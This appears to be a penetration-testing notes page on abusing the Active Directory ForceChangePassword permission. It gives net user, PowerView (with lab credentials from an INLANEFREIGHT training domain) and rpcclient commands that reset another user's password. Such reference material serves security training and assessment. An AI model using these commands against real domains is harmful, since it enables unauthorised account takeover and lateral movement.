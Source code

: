 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="Native" %}
```sh
net user <USER> <PASS> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# creating a PSCredential Object for the currently owned user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
# set the password we want for the target user by creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
# import powerview
Import-Module .\PowerView.ps1
# change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
